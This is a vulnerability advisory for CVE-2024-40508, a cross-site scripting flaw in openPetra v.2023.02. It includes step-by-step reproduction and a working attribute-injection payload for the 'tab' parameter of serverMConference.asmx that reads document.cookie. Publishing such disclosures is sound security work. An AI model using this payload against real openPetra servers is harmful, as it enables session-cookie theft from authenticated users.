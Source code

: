 # CVE-2024-40508
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMConference.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMConference.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40508  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40508  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40508     
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40508  
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.:
```target.com/api/serverMConference.asmx?bnd=TMHospitalityWebServiceSoap&op=THospitalityWebConnector_Dummy&page=op&tab=x" onmouseover=alert(document.cookie) x=" ```           
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
